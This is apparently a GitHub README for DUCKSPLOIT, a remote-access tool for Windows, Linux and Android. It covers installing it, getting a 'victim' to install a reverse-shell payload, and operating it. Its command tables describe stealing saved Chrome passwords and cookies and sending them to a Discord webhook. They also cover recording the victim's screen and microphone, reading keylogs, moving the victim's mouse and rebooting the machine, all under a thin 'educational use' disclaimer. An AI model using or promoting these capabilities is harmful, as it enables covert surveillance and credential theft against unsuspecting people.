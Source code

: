 # ⚠️DUCKSPLOIT IS UNDER MAINTENANCE⚠️


<img src="https://github.com/canarddu38/DUCKSPLOIT/blob/root/images/dsbanner.png" alt="banner"/>

![](https://img.shields.io/badge/Version-1.0.7-red?style=for-the-badge) ![](https://img.shields.io/github/stars/canarddu38/DUCKSPLOIT?style=for-the-badge) ![](https://img.shields.io/github/issues/canarddu38/DUCKSPLOIT?style=for-the-badge) ![](	https://img.shields.io/github/forks/canarddu38/DUCKSPLOIT?style=for-the-badge) ![](https://img.shields.io/github/license/canarddu38/DUCKSPLOIT?style=for-the-badge) ![](https://img.shields.io/badge/Windows-blue?style=for-the-badge)![](https://img.shields.io/badge/Linux-yellow?style=for-the-badge)![](https://img.shields.io/badge/Android-green?style=for-the-badge)

> Awsome crossbreed of c#, batch, bash powershell, java and python on Windows, Android n linux ♥
 <center>
<img src="https://github.com/canarddu38/DUCKSPLOIT/blob/root/images/windows-10.png?raw=true" alt="win10" widith="100" height="100"/>
</center>

## Install Ducksploit

#### Hacker
###### setup Windows/Linux
1. Download the hacker's version for your version (win/linux/android) on <a href="https://canarddu38.github.io/DUCKSPLOIT/download.html">our website</a>
2. Install the executable (DSinstaller.exe/.deb/.apk)
3. Type ds in your terminal
4. And done! 
###### :warning: Only for Android
5. Set your port
6. Click on START SERVER button
7. And wait till someone install your payload

 **⚠️DS ANDROID'S PAYLOAD GENERATION IS NOT ACTUALLY WORKING
 TO GET YOUR PAYLOAD PLEASE GO IN OUR DISCORD SERVER⚠️**



#### Victim
Just install the generated payload and that will start automaticaly the client of the reverse shell
:warning: Ducksploit is made for legal use or educational use (then, we are not responsible for any crimes committed by our users):warning:

## Uninstall Ducksploit (windows/linux)
1. type 'ds uninstall' in cmd
2. Done  :smile:

## Uninstall DuckSploit for Android
 1. Delete the app from your phone
 
## SUPPORT
support us with     
<noscript><a href="https://www.paypal.com/paypalme/Canarddu38"><img alt="Donate 👍 using Paypal" src="https://www.paypalobjects.com/webstatic/mktg/Logo/pp-logo-200px.png"></a></noscript>              # or             <noscript><a href="https://www.patreon.com/ducksploit"><img alt="Donate 👍 using Patreon" src="https://forum.cwowd.com/uploads/default/original/3X/6/d/6d1cdda143cc46667d87659d64d15a869a9b6139.png" width="100" height="100"></a></noscript>

## **Commands**
<img src="https://github.com/canarddu38/DUCKSPLOIT/blob/root/images/mindmap.png?raw=true">




#### Launch
| Command | Usage | Result |
| ------------- | ------------- | ------------- |
| wait    | wait | wait your victim's connection |


#### Account
| Command | Usage    | Result |
| ------------- | ------------- | ------------- |
| info | info | view all your account's infos |

#### Exploits
| Command       | Usage                              | Result                                                                               |
| ------------- | ---------------------------------- | ------------------------------------------------------------------------------------ |
| stealpwds     | stealpwds (discord webhook url)    | steal all saved chrome passwords of your victim and send them into a discord webhook |
| stealcookies  | stealcookies (discord webhook url) | steal all saved chrome cookies of your victim and send them into a discord webhook   |
| open          | open (applicationname.exe)         | open mensioned application                                                           |
| recordscreen  | recordscreen (time in second)      | record victim's screen durring amount of time                                        |
| recordmicro   | recordmicro (time in second)       | record victim's micro durring amount of time                                         |

## ⚠️ To get your victim's keylogs, go on 'http://{ip of your victim}:8080/keylogger/' ⚠️

#### Mouse
| Command     | Usage                            | Result                                      |
| ----------- | -------------------------------- | ------------------------------------------- |
| mouseclick  | mouseclick [left, right, middle] | make the victim click the mensionned button |
| mousemove   | mousemove (x) (y)                | move the victim's cursor by x and y pixels  |
| locatemouse | locatemouse                      | get the victim's cursor current locations   |

#### Alert Window
| Command  | Usage                       | Result                                                                    |
| -------- | --------------------------- | ------------------------------------------------------------------------- |
| msg      | msg (title) (line1) (line2) | create an alertbox and send it on the vitim's pc with a title and 2 lines |

#### Troll
| Command | Usage | Result                              |
| ------- | ----- | ----------------------------------- |
| skull   | skull | spam cmds with skull and crossbones |

#### Mysc 
| Command      | Usage       | Result                            |
|--------------|-------------|-----------------------------------|
| uninstall    | uninstall   | uninstall ducksploit              |
| update       | update      | update ducksploit                 |
| credits      | credits     | view ducksploit's credits         |
| help         | help        | getting the list of all commands  |
| shutdown     | shutdown    | make the victim's pc shutdown     |
| reboot       | reboot      | make the victim's pc reboot       |
| closesession | closesesion | make the victim's session close   |


Made with love by DuckpvpTeam's devs
<img src="https://avatars.githubusercontent.com/u/100393931?s=48&v=4"><img src="https://avatars.githubusercontent.com/u/71982379?s=40&v=4">

